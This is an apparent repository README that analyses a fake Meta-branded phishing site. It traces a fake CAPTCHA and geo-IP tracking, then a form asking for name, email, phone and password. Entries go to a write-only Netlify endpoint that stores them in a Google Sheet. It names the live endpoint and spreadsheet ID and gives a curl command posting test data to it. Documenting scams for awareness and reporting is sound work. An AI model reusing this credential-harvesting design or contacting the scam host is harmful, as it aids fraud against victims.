# Meta Chat AI Scam – Technical Analysis

> ⚠️ **Disclaimer**  
> This repository documents a **fake “Meta Chat AI” website and backend** for awareness, research, and abuse reporting.  
> It does **not** facilitate fraud or misuse.

---

## 1. Overview

This operation is a **Meta / Facebook impersonation and data-harvesting scam**.

It uses:
- A **fake Meta-branded website**
- A **Next.js frontend**
- A **Netlify serverless backend**
- A **Google Sheets–based data store**

Its purpose is to silently collect user data and prevent victims from accessing or removing it.

---

## 2. Initial Contact (Social Engineering)

The scam begins with a **direct message from another user** on a social platform.  
The message creates mild urgency and contains a link to the fake site.



No money is requested at this stage, which lowers suspicion.

---

## 3. Fake Website Flow

### 3.1 Fake Verification Page

After clicking the link, the user sees a **“Confirm you are not a robot”** page.  
This imitates real security checks but uses no real CAPTCHA.



---

### 3.2 Timestamp Redirect

The site redirects to a URL containing a numeric value resembling a Unix timestamp:

/contact/1770471578746


This makes the flow appear session-based and legitimate.



---

### 3.3 Meta-Like Interface

The main page imitates **Meta / Facebook settings or support pages** and prompts the user to submit personal details.



A visual comparison shows copied design cues but no real Meta functionality.




---

## 4. Frontend Architecture

The frontend is built with **Next.js**, confirmed by:
- `/_next/static/*` assets
- React Server Components
- Client-side routing



Only **one element is functional**:
- the **form submit button**

All other UI elements are decorative.

---

## 5. Automatic Data Collection

Before any form interaction, the site **automatically collects data on page load**:
- Client IP address
- Approximate location (Geo-IP)
- Region and language settings



The site adapts language based on region, using **Google Translate**, increasing perceived legitimacy.



---

## 6. Data Collection Form

The final step on the website is a form that collects user-provided data.

| Field | Description |
|------|------------|
| IP address | Client IP (already known) |
| Name | Arbitrary input |
| Email | Victim email |
| Phone | Victim phone |
| Password | Victim password |

The user is not informed where this data is stored or how it will be used.


---

## 7. Form Submission → Backend Request

When the form is submitted, the browser sends a **POST request** to the backend API.

**Endpoint:**

POST https://zehtevano-preverjanjee.netlify.app/api/sheets


This request is made by submiting the form.




---

## 8. Backend API (Netlify Functions)

The `/api/sheets` endpoint is implemented as a **Netlify Serverless Function**.

Its behavior:
- Accepts incoming form data
- Appends it to a Google Sheet
- Does not expose any read, edit, or delete functionality

The API is effectively **write-only**.

---

## 9. Backend Response

After data is stored, the backend returns a minimal success response.

Example response:
```json
{
    "spreadsheetId":"1IiBC-peOD7oUaU2FxUXd2li-0D4lSR8sKu5j00NkGpw",
    "updates": {
        "updatedColumns":6,
        "updatedCells":6,
        "spreadsheetId":"1IiBC-peOD7oUaU2FxUXd2li-0D4lSR8sKu5j00NkGpw",
        "updatedRange":"Sheet1!A3563:F3563",
        "updatedRows":1
    },
    "tableRange":"Sheet1!A1:N3562"
}
```

This response does not include any previously stored data.

---

## 10. CLI Reproduction (Proof)

The same backend behavior can be reproduced using curl:

```bash
curl -X POST "https://zehtevano-preverjanjee.netlify.app/api/sheets" \
  --data-raw "{\"action\":\"append\",\"value\":[[\"215.88.211.158\",\"Ljubljana - Slovenia (SI)\",\"ime\",\"test@example.com\",\"+38612312312\",\"geslo\"]]}"
```

Successful response confirms:

- Data is accepted without authentication
- Data is written to Google Sheets
- The user has no visibility into stored entries

---
